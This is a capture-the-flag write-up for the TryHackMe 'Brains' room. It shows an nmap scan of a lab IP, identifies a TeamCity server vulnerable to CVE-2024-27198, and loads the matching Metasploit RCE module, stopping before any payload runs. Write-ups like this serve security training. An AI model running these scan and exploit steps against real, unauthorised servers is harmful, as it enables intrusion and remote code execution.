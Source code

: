 ![Nmap Scan](Theme%20Brains.JPG)
# brains-writeup-thm

> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

# RED exploit the server!
# 1. First Step in the Terminal "nmap -p- <Target_IP_Address>"

```bash
nmap -p- 10.10.252.192
````
# "nmap" -> The network scanner tool
# "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
# "<Target_IP_Address>" -> The IP address of the target — in the case of the Brains room
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)

# What ports are open and why they matter: 
# 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
# 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
# 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.

2. What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability
# The most interesting one here is Port 50000: even though it's labeled ibm-db2, it actually runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).
```bash
msfconsole
```
# "msfconsole" -> This launches the Metasploit interface.

```bash
search teamcity
```
# "search teamcity" -> This will list available exploit modules related to TeamCity
#  Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198

#  Use the module:
```bash
use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
```

